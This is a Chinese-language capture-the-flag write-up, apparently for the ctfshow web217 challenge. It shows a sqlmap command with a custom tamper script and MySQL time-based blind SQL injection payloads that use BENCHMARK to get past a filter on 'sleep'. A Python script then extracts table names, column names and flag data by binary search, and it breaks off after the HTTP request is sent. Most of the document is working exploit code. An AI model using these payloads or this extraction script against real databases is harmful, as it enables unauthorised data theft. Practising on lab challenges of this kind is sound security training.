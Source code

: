 ```cobol
 py3 .\sqlmap.py -r C:\Users\Administrator\Desktop\1.txt --level 3   -v3 --technique=T --prefix "')" --tamper 2.py
```

然后我们 指定一下 注入的闭合 就可以实现注入了 这里脚本 就是通过上面的payload修改一下即可

## web217  过滤sleep 通过 benchmark 实现注入

```php
    //屏蔽危险分子
    function waf($str){
        return preg_match('/sleep/i',$str);
    }   
```

哦吼 直接过滤了sleep

这里我们使用

```undefined
BENCHMARK
```

绕过 其实这个就是一个计算sha值的函数我们来测试  


<img src="https://i-blog.csdnimg.cn/blog_migrate/9fb18e0322a51a1fc3b35b2a2291789a.png" alt="" style="max-height:524px; box-sizing:content-box;" />


这里的payload就是

```cobol
1) or if(ascii(substr((select database()),{0},1))>{1},benchmark(100000000,sha('test')),0)-- +
```

可以发现 根据我们需要执行的次数 时间就会不一样 所以这里我们就可以通过benchmark实现时间注入

```cobol
import time
 
import requests
 
 
url = "http://18d8a67d-daf6-466e-a0b1-0ca752534667.challenge.ctf.show/api/"
 
# payload = "1) or if(ascii(substr((select database()),{0},1))>{1},benchmark(100000,sha('test')),0)-- +
# payload = "1) or if(ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema=database()),{0},1))>{1},benchmark(1000000,sha('test')),0)-- +"
# payload = "1) or if(ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_flagxccb'),{0},1))>{1},benchmark(10000000,sha('test')),0)-- +"
payload = "1) or if(ascii(substr((select group_concat(id,'---',flagaabc)from ctfshow_flagxccb),{0},1))>{1},benchmark(10000000,sha('test')),0)-- +"
flag = ''

for i in range(1,100):
    high = 128
    low = 32
    mid = (high+low)//2
    while(high>low):
        payload1=payload.format(i,mid)
        # print(payload1)
        # print(payload1)
        data = {
            'ip':payload1,
            'debug':0
        }
        start_time=time.time()
        re = requests.post(url=url,data=data)
```